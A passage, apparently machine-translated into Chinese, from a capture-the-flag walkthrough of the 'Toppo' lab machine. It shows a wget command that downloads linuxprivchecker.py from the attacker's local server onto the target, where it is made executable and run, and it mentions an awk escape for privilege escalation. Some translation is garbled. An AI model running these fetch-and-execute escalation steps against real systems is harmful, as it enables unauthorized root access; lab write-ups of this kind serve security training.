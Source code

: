 **在机器上下载脚本(toppo)**

```
 $wget [http://192.168.0.105:8000/linuxprivchecker.py](http://192.168.0.105:8000/linuxprivchecker.py)
```

![](img/031bd43a82fe7f1bbecd9e68f893a399.png)

男子 wget

![](img/d33b173c489c3cc42371c3319441bf4f.png)

在 toppo 下载 privchecker

```
$chmod +x linuxprivchecker.py
$ ./linuxprivchecker.py
```

在 toppo 上运行脚本。

![](img/fc0fbb95428087d5e500c23f1c8ef11f.png)

运行 privchecker

它将提供一些方法来转义序列，我正在尝试使用 awk，你可以尝试任何一种。

![](img/2107f89f99d01d82f50ce233951a75ae.png)
